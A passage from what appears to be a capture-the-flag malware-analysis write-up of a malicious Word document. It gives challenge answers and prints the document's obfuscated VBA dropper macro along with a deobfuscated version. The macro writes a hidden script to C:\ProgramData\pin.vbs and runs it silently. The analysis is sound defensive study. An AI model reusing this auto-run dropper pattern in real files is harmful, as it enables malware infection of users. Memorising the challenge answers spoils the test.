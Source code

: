 **Observations:**  
- **Q1:** Provide the streams (numbers) that contain macros: `12, 13, 14, 16`.  
- **Q2:** Provide the size (bytes) of the compiled code for the second stream that contains a macro: `15671`.  
- **Q3:** Provide the largest number of bytes found while analyzing the streams: `42465`.  
- **Q12:** Under what stream did the main malicious script use to retrieve DLLs from the C2 domains? (Provide the name of the stream): `Macros/Form/o`.

---

#### **Initial Macro Analysis**  
We export the discovered macros using `oledump.py` with the `-s` flag. Streams 12 and 13 contain long, seemingly legitimate functions for validating email addresses and handling MP3 files, which may serve as distractions for analysts. Stream 14 contains the entry point with the `AutoOpen()` subroutine, which calls `bxh.eFile`.

```bash
parrot@parrot:~$ oledump.py -s 14 -v attacker2.doc
Sub AutoOpen()
    bxh.eFile
End Sub
```

The `eFile` subroutine is located in stream 16:

```vb
Attribute VB_Name = "bxh"
Sub eFile()
    Dim QQ1 As Object
    Set QQ1 = New Form
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.t2.Caption
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))
    End
End Sub
```

After deobfuscation, the macro's functionality becomes clearer:

```vb
Sub eFile()
    Dim formHandle As Object
    Set formHandle = New Form
    directory = "C:\ProgramData\"
    fileLocation = directory + "pin.vbs"
    formCaption = formHandle.t2.Caption
    MyFile = FreeFile
    Open fileLocation For Output As #MyFile
    Print #MyFile, formCaption
    Close #MyFile
    fun = Shell("cmd /k cscript.exe C:\ProgramData\pin.vbs", 0)
    End
End Sub
```
